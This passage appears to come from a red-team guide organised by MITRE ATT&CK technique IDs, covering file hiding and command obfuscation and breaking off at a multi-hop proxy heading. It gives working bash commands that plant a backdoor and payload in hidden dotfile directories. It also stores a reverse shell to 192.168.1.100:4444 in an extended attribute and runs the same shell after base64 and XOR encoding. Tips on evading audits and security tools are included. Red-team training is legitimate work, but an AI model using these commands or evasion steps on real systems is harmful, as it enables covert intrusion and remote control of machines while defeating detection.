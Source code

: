 ### Hidden Files and Directories (T1564.001)

This involves hiding files or information to evade detection.

**File Hiding Techniques**:
```bash
# Hide files with leading dot
mv backdoor.sh .service-temp.sh

# Use hidden directories
mkdir -p ~/.config/.hidden/
cp payload.elf ~/.config/.hidden/update-cache

# Use alternate data streams (Linux XFS)
getfattr -n user.stream payload.txt
setfattr -n user.stream -v "#!/bin/bash\nbash -i >& /dev/tcp/192.168.1.100/4444 0>&1" payload.txt
```

**Specific ATT&CK Mapping**:
- Hidden file usage implements T1564.001
- Alternate data streams provide additional hiding capabilities

**Operational Security**:
- Use system locations that are typically ignored in audits
- Leverage dotfiles and directories for hiding tools
- Consider timestamp manipulation to make files appear older

### Obfuscated Files or Information (T1027)

This involves obfuscating code or data to make it difficult to analyze.

**String Encoding**:
```bash
# Base64 encode a shell command
echo 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' | base64
# Execute decoded command
bash -c "$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAwLzQ0NDQgMD4mMQo= | base64 -d)"

# XOR encoding (using Python)
python3 -c 'import sys; cmd = "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1"; key = 42; print("".join(chr(ord(c) ^ key) for c in cmd))'
```

**Specific ATT&CK Mapping**:
- String encoding directly implements T1027
- Obfuscation evades simple string-based detection mechanisms

**Red Team Approach**:
- Use multi-layer encoding for critical payloads
- Combine encoding techniques with encryption when possible
- Test obfuscation effectiveness against target security tools

### Proxy: Multi-hop Proxy (T1090.003)

This involves using multiple proxies to disguise the source of traffic.
